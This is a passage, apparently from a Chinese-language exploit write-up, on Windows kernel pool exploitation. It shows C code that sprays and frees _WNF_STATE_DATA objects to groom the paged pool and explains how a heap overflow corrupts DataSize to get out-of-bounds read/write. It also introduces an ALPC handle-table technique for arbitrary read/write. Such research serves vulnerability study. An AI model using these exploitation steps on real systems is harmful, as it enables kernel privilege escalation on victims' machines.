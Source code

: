 我们将执行第一次_WNF_STATE_DATA  
喷射：  
```
    printf("[+] Spraying _WNF_STATE_DATA\n");
    for (int i = 0; i < NUM_WNFSTATEDATA; i++) {
        state = NtUpdateWnfStateData(&StateNames[i], StateData, (0x1000-0x10), 0, 0, 0, 0);
        if (state != 0) {
            cout << "NtUpdateWnfStateData failed! error=" << GetLastError() << endl;
            return -1;
        }
    }
```  
  
这将导致分页池中的内存布局如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFcicC8Vay46eYaRSiaEFPQicUN6icAYpk9LPZ0VoXpPoAwhPy8wMU7NEXzjjg/640?wx_fmt=png&from=appmsg "")  
  
Memory 1  
  
之后，我们通过释放每个交替对象来制造空洞：  
```
    printf("[+] Poking holes by freeing every alternate WNF object\n");
    for (int i = 0; i < NUM_WNFSTATEDATA; i = i + 2) {
        NtDeleteWnfStateData(&StateNames[i], NULL);
        state = NtDeleteWnfStateName(&StateNames[i]);
        if (state != 0) {
            return -1;
        }
    }
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFciculh61BetzYqNeznOD04PoUuzeQTP4AwhnRNJ456HKfVibeGpibiaPCTeQ/640?wx_fmt=png&from=appmsg "")  
  
Memory 2  
  
通过破坏结构体中的 DataSize 字段，可以使用 _WNF_STATE_DATA  
 对象实现越界读写。在我们的案例中，通过使用堆溢出将 DataSize 从 0xff0 更改为 0xff8，我们能够获得 8 字节的越界读写。  
  
现在我们将打开漏洞利用文件 1 来触发漏洞，这将把我们的目标对象分配到其中一个空洞中，并溢出到相邻的 _WNF_STATE_DATA  
 对象中。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFcickQMDezJOLFz83AFkUf0uwHicR15VMI57nmLGTdSYFoiavkb9vCiciaiajIQ/640?wx_fmt=png&from=appmsg "")  
  
Memory 3  
  
执行的代码路径导致我们的目标对象被释放，但这并不重要，因为 _WNF_STATE_DATA  
 对象的损坏已经发生。尽管如此，这就是释放后内存的样子：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFcicLQ2jlVu1G5knibEicdRDnKPlDcF6BaJ6K9iaEShUxDt7m1fU9ibut5lIFA/640?wx_fmt=png&from=appmsg "")  
  
Memory 4  
  
现在让我们看看高级本地过程调用（ALPC）。ALPC 是 Windows 内核中一个未公开的内部进程间通信工具。徐世杰、宋建阳和李林双开发了一种  
技术  
，可以通过可变大小的 _ALPC_HANDLE_TABLE  
 对象实现任意读写。  
```
struct _ALPC_HANDLE_TABLE {
    struct _ALPC_HANDLE_ENTRY* Handles;                                     //0x0
    struct _EX_PUSH_LOCK Lock;                                              //0x8
    ULONGLONG TotalHandles;                                                 //0x10
    ULONG Flags;                                                            //0x18
}; 
```  
  